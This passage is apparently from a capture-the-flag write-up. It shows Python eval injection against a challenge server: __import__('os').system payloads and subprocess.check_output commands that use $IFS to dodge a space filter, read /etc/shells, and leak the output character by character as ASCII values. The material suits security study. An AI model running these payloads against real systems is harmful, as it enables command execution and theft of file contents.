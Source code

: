 We will generate color code for number 0 and the also will also give  `__import__('os').system('id')` expression as input.
1. Color code for 0
2. Giving expression which will run whoami command, if successfull, will return 0.
3. We get color code for 0

## Exfiltrating File Content/Command Output

We can use subrocess.check_output() function to run commands and get its output as return value. Below snippets shows a local install of Python3.

![cg04](/assets/playsecure2021/cg04.png)

1. Using subprocess.check_output() to get the contents of /etc/shells file.
2. Converting the output to string and replacing the new line
3. Taking the 0'th character of the output -> #
4. Taking ascii of the 0'th character -> ASCII('#') = 35
5. Returns 35

```python3
>>> __import__('subprocess').check_output('/bin/cat$IFS/etc/shells',shell=True)
b'# /etc/shells: valid login shells\n/bin/sh\n/bin/bash\n/usr/bin/bash\n/bin/rbash\n/usr/bin/rbash\n/bin/dash\n/usr/bin/dash\n/bin/zsh\n/usr/bin/zsh\n/usr/bin/tmux\n/usr/bin/screen\n'
>>> 
>>> __import__('subprocess').check_output('/bin/cat$IFS/etc/shells',shell=True).decode('utf-8').rstrip('\n')
'# /etc/shells: valid login shells\n/bin/sh\n/bin/bash\n/usr/bin/bash\n/bin/rbash\n/usr/bin/rbash\n/bin/dash\n/usr/bin/dash\n/bin/zsh\n/usr/bin/zsh\n/usr/bin/tmux\n/usr/bin/screen'
>>> 
>>> __import__('subprocess').check_output('/bin/cat$IFS/etc/shells',shell=True).decode('utf-8').rstrip('\n')[0]
'#'
>>> 
>>> ord(__import__('subprocess').check_output('/bin/cat$IFS/etc/shells',shell=True).decode('utf-8').rstrip('\n')[0])
35
>>> 
```

Testing Against Challenge Server:

![cg05](/assets/playsecure2021/cg05.png)
